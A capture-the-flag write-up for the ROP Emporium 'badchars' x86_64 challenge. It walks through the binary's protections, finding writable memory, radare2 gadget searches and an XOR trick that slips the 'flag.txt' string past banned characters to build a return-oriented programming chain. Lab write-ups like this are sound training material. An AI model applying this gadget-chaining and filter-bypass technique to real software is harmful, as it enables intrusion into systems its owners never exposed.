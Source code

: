 # ROP Emporium - 05 badchars x86_64

## ELF Binary Info
> $ `rabin2 -I ./badchars`  
```
arch     x86
baddr    0x400000
binsz    6523
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    .
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)

## Find readable and writeable area of memory
- 1st terminal, run ELF binary and keep it open
- 2nd terminal, search proc maps of running process for readable and writeable memory:
> $ `cat /proc/$(pgrep -f ./badchars)/maps | grep rw`
```  
00601000-00602000 rw-p 00001000 fe:01 656477                             /<badchars_filepath>
[...]
```
- Step through binary in GDB and search for free memory between `00601000-00602000` to place "flag.txt" string
- Ensure there are null bytes after chosen memory address so that null terminator does not need to be added manually
> $ `gdb -q ./badchars`  
> (gdb) `start`  
> (gdb) `disass pwnme`  
```
Dump of assembler code for function pwnme:
[...]
   0x00007f97526e5987 <+141>:	call   0x7f97526e57c0 <read@plt>
   0x00007f97526e598c <+146>:	mov    QWORD PTR [rbp-0x40],rax
   0x00007f97526e5990 <+150>:	mov    QWORD PTR [rbp-0x38],0x0
[...]
End of assembler dump.
```
- Set breakpoint after read() instruction
> (gdb) `b *pwnme+146`  
> (gdb) `c`  
```
Continuing.
badchars by ROP Emporium
x86_64

Go ahead and give me the input already!

> AAAAAAAA
```
> (gdb) `x/512gx 0x601000`  
```
[...]
0x6019f0:	0x0000000000000000	0x0000000000000000
0x601a00:	0x0000000000000000	0x0000000000000000
0x601a10:	0x0000000000000000	0x0000000000000000
[...]
```
- Memory address `0x601a00` looks like it matches criteria

## Get ROP Gadgets
> $ `r2 -A ./badchars`  
- Search for gadget that writes to memory
> [0x00400520]> `/R mov qword`  
```
[...]
  0x00400634           4d896500  mov qword [r13], r12
  0x00400638                 c3  ret
[...]
```
- Search for gadget that pops r12 and pops r13
> [0x00400520]> `/R pop r12`  
```
  0x0040069c               415c  pop r12
  0x0040069e               415d  pop r13
  0x004006a0               415e  pop r14
  0x004006a2               415f  pop r15
  0x004006a4                 c3  ret
[...]
```
- Search for gadget that pops rdi
> [0x00400520]> `/R pop rdi`  
```
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```
- Luckily there's a function that prints from file
> [0x00400520]> `pdf @ sym.usefulFunction`  
```
╭ 17: sym.usefulFunction ();
│           0x00400617      55             push rbp
│           0x00400618      4889e5         mov rbp, rsp
│           0x0040061b      bfc4064000     mov edi, str.nonexistent    ; 0x4006c4 ; "nonexistent"
│           0x00400620      e8ebfeffff     call sym.imp.print_file
│           0x00400625      90             nop
│           0x00400626      5d             pop rbp
╰           0x00400627      c3             ret
```
- With above gadgets, string can be written to memory, popped into rdi and print_file function called (similar to previous level)
- However, this challenge prevents use of characters `'x', 'g', 'a', '.'`, so search for gadgets that can work around this restriction:
> [0x00400520]> `/R xor byte`  
```
[...]
  0x00400628             453037  xor byte [r15], r14b
  0x0040062b                 c3  ret
[...]
```
- Able to xor a value in memory one byte at a time, so first xor "flag.txt" with another value e.g. "^":
> `"flag.txt" ^ "^^^^^^^^" == "82?9p*&*"`  
- Therefore `"82?9p*&*"` will be initially inserted into memory at address `0x601a00`
- After xor'ing each char with `"^"`, result will be `"flag.txt"` again

## Get Flag
> $ `python get_flag.py`  
```
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
